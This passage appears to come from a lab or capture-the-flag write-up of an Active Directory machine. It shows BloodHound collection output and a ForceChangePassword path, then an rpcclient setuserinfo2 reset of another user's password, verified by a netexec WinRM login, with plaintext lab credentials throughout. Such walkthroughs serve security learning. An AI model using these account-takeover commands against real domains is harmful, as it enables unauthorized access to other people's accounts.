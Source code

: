 ```output
           ERROR    Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains                                                domain.py:90
           ERROR    Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains                                                domain.py:90
[20:14:33] ERROR    Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains                                                domain.py:90
[20:14:34] ERROR    Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains                                                domain.py:90
LDAP        10.10.233.118   389    LABDC            Done in 00M 06S
LDAP        10.10.233.118   389    LABDC            Compressing output into /home/kali/.nxc/logs/LABDC_10.10.233.118_2025-09-26_201430_bloodhound.zip
                                                           

```

we receive some warning but we get output so lets copy it same directory

```bash
cp /home/kali/.nxc/logs/LABDC_10.10.233.118_2025-09-26_201430_bloodhound.zip .
```

lets start neo4j and bloodhound and upload the data
```bash
sudo neo4j start
bloodhound
```


Running bloodhound-GUI and uplading the json files we got from python-bloodhound, we can see a path from `rsmith` to `ewalters` by having `ForceChangePassword` on ewalters, we can change the password and login by either WinRM or RDP since it has `CanPSRemote` permissions on the host

![[Pasted image 20250927013241.png]]

Through `rpcclient`, ewalters's password can be changed

```bash
rpcclient -U 'rsmith%IHateEric2' //10.10.233.118
```

now we can change the password of ewalters's
```bash
rpcclient $> setuserinfo2 ewalters 23 'Ewwalter@123456'
```

With netexec we can verify if the password is actually updated and we can login through WinRM

```bash
netexec winrm 10.10.233.118 -u 'ewalters' -p 'Ewwalter@123456'
```

output
```output
WINRM       10.10.233.118   5985   LABDC            [*] Windows Server 2022 Build 20348 (name:LABDC) (domain:lab.trusted.vl)
WINRM       10.10.233.118   5985   LABDC            [+] lab.trusted.vl\ewalters:Ewwalter@123456 (Pwn3d!)
```
